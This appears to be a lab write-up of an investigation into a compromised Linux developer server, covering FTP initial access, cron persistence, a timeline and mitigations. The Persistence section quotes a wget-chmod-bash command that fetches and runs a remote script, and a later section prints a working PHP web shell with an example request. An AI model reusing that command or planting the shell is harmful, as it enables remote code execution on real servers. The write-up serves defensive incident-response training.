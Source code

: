 # Lab: Linux System Hunt

## Scenario 

A potential compromise on a Linux developer server after suspicious Slack activity and unusual network connections were reported.The objective was to investigate potential host-based indicators and confirm whether the two incidents were related.

## Summary
The threat actor gained initial access to the server via FTP and established persistence using a cron job that periodically downloaded and executed a malicious shell script. Further analysis revealed the use of a PHP web shell for remote command execution.

## Commands Run
- journalctl | grep -i "ftp" | grep -i "success"  to check for successful FTP authentications
- journalctl | grep -i /tmp to check for changes to the /tmp directory
- find / -newermt "3 Sept 2021 06:00:03" ! -newermt "3 Sept 2021 06:01:47" 2>/dev/null to find modified files between within the timefram
- journalctl | grep ftpadam | grep "110\.44\.125\.139" to search for all activities belonging to ftpadam (account logged into by the threat actor) and determine their activity

## Findings (timeline)

### Initial Access
- Timestamp: Sept 3, 2021 – 05:52:31
- Method: FTP login using account ftpadam
- Source IP: 110.44.125.139
- Evidence of successful FTP authentication confirming external access to the system.
![FTP](image.png)

### Persistence
- Timestamp: Sept 5, 2021 – 00:00:01
- Mechanism: A shell script was dropped in /tmp via wget, made executable, and executed by root.
- Command observed in logs: `wget http://crest.tt/bJx3 -O /tmp/tmp.sh && chmod +x /tmp/tmp.sh && bash /tmp/tmp.sh`


- A weekly cron job was also created to automatically download and execute the same remote script as root, ensuring continuous persistence.
![Shell Script](image-1.png)
![Cron Job](image-2.png)

### Remote code execution via web shell
A PHP file was. The snippet in the screenshot below checks whether an HTTP parameter named z was provided (\$_REQUEST["z"]). If so, it prints a "pre" tag, assigns the parameter to \$z, and calls system(\$z). system() executes the string as a shell command on the server and returns output. *die* ends script execution after running the command. An attacker can send `http://victim/shell.php?z=whoami` (or other commands) and have the server run arbitrary shell commands as the web server user

Snippet observed:
`<?php 
if(isset($_REQUEST["z"])) {
  echo "<pre>"; 
  $z = ($_REQUEST["z"]); 
  system($z); 
  echo "</pre>"; 
  die; 
}
?>`

### Last Activity
The attacker’s last observed activity occurred at Sept 3, 2021 – 09:25:25.
![Last Activity](last_activity.png) 


## Mitigation Recommendations
- Rotate all service passwords and kill sessions for user account `ftpadam`
- Block ip `110.44.125.139` at the firewall level
- Remove the cron jobs created by the actor
- Remove malicious PHP web shell


## MITRE ATT&CK Mapping
- T1133 (initial access via remote services)
- T1053.003 (Persistence via Scheduled Task/Job)

